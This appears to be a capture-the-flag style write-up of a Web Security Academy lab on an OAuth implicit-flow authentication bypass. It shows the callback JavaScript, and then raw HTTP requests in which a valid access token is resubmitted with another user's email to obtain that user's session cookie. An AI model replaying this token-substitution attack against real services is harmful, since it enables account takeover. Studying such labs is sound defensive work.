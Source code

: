 `/oauth-callback` extracts the `access_token` and authenticate the user:
```js
...
const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
const token = urlSearchParams.get('access_token');
fetch('https://oauth-0a3b00a404da08d581df370102d10001.oauth-server.net/me', {
    method: 'GET',
    headers: {
        'Authorization': 'Bearer ' + token,
        'Content-Type': 'application/json'
    }
})
.then(r => r.json())
.then(j => 
    fetch('/authenticate', {
        method: 'POST',
        headers: {
            'Accept': 'application/json',
            'Content-Type': 'application/json'
        },
...
```

```http
GET /me HTTP/2
Host: oauth-0a3b00a404da08d581df370102d10001.oauth-server.net
Authorization: Bearer 48w8D_rPH_OAfW1-7WCVd_KSHtYDOWY70PLDCiay6si

HTTP/2 200 OK
{"sub":"wiener","name":"Peter Wiener","email":"wiener@hotdog.com","email_verified":true}

---

POST /authenticate HTTP/2
Host: 0a9200f004470809819239f700b900a7.web-security-academy.net

{"email":"wiener@hotdog.com","username":"wiener","token":"48w8D_rPH_OAfW1-7WCVd_KSHtYDOWY70PLDCiay6si"}


HTTP/2 302 Found
Location: /
Set-Cookie: session=3K8mkVVmZu4PS7yXCxRdYbp8DggDwUhM; Secure; HttpOnly; SameSite=None
```

Used a valid access token and obtained a session cookie for another existing user:
```http
POST /authenticate HTTP/2
Host: 0a9200f004470809819239f700b900a7.web-security-academy.net

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"48w8D_rPH_OAfW1-7WCVd_KSHtYDOWY70PLDCiay6si"}


HTTP/2 302 Found
Location: /
Set-Cookie: session=WV7jzAGDYK9SBwX0D2foyLoJpTX2GHmH; Secure; HttpOnly; SameSite=None
```
